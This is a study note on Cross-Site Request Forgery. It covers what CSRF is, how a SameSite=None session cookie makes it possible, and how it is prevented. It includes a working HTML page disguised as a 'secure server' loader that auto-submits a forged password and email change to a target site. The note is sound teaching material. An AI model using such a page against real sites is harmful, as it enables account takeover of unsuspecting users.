 # 06.csrf

12/05/25

## Recall

- What is CSRF (Cross-Site Request Forgery)?
- How does it abuse a victim’s authenticated session?
- What conditions make CSRF possible?
- What are common targets in CSRF attacks?

## Notes

### What it is

**CSRF (Cross-Site Request Forgery)** is a web vulnerability that allows an attacker to perform unauthorized actions on behalf of an authenticated user by **tricking the user’s browser into sending a forged request** to the target application. Since the browser automatically includes session cookies with requests, the forged request is processed as if it came from the legitimate user.

CSRF attacks typically rely on poor session cookie configurations, such as missing or misused `SameSite` attributes, and require **social engineering** to lure the victim into executing the malicious request — often by hosting the payload on a website controlled by the attacker.

### How to identify it

 identify a CSRF vulnerability, the first step is to inspect how the application handles session cookies. If the `SameSite` attribute is missing or set to ****`None`, the browser will send the session cookie even on cross-site requests — which makes the attack possible.

![image.png](/images/csrf/08.01.samesite-policy-misconfig.png)

In this example, the session cookie has `SameSite=None`, which means it can be sent along with cross-origin requests, even from an attacker-controlled domain.

### How to exploit it

After confirming the vulnerability, the attacker looks for sensitive actions that can be triggered via authenticated requests — such as **changing a user’s password** or **modifying profile settings**.

Once the endpoint and request format are understood:

![image.png](/images/csrf/08.02.understanding-the-request.png)

…the attacker can craft a malicious HTML page that silently sends the same request when a victim loads the page:

```bash
<!DOCTYPE html>
<html lang="en">
	<head>  
		<meta charset="UTF-8">  
		<title>Loading...</title>  
		<style>    
			body {      
				font-family: sans-serif;      
				background-color: #f4f4f4;      
				text-align: center;      
				padding-top: 100px;      
				color: #444;    
			}    
			.loader {      
				font-size: 1.2rem;    
			}  
		</style>
	</head>	
	<body>  
		<h1>Connecting to secure server...</h1>  
		<p class="loader">Please wait while we verify your session.</p>
    <form action="http://target.com/index.php?action=update" method="POST" id="csrf-form">      
			<input type="hidden" name="email" value="guest@guest.com">      
		  <input type="hidden" name="password" value="123">    
	  </form>
	  
  <script>    
	  document.getElementById('csrf-form').submit();  
	 </script>
	</body>
</html>
```

By hosting this page and luring the victim into visiting it, the attacker can silently force a password change request using the victim’s session — effectively taking control of their account.

## Summary

CSRF is a vulnerability that allows an attacker to perform unauthorized actions on behalf of an authenticated user by forging a request and leveraging the browser’s automatic behavior of including session cookies. The attack relies on poor cookie configurations (especially the lack of a proper `SameSite` policy) and social engineering to trigger the action. When successful, the attacker can change account settings, transfer funds, or perform other critical operations without the victim's awareness. Preventing CSRF involves enforcing strict SameSite policies, validating request origins, and using anti-CSRF tokens for sensitive operations.